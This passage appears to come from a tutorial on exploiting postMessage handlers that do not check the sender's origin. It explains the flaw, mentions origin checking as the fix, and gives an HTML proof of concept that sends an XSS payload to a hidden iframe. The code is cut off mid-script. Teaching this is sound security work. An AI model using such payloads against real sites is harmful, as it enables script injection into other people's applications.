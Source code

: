     <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Exploitation Process**

1. **Understanding the Vulnerable Code:**
   * The parent window is listening for messages, but without verifying the sender's origin. This opens up the possibility of an attacker sending malicious data to the parent window.
2.  **Secure Implementation:**

    * A secure implementation would involve verifying the origin of the sender by comparing it with an acceptable origin. This prevents unauthorized messages from being processed.

    <figure><img src="../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
3. **Exploit Development:**
   * **HTML Structure:**
     * Create an HTML page with a submit button.
     * Load the vulnerable application in an `iframe`.
   * **Exploit Function:**
     * Define a `payload` containing the malicious JavaScript code.
     * Use the `contentWindow` property to access the `iframe`'s window object.
     * Send the payload to the `iframe` using `postMessage()`.

```html
vulnerable<!DOCTYPE html>
<html>
<head>
    <title>PostMessage Exploit</title>
</head>
<body>
    <h1>Exploit PostMessage Vulnerability</h1>
    <iframe id="targetFrame" src="https://vulnerable-nodejs-app.com" style="display:none;"></iframe>
    <button onclick="exploit()">Click to Exploit</button>

    <script>
        function exploit() {
            // Malicious payload
            var payload = "<script>alert('XSS via postMessage')</script>";

            // Accessing the iframe's content window
            var iframe = document.getElementById('targetFrame').contentWindow;

            // Sending the payload to the iframe
```
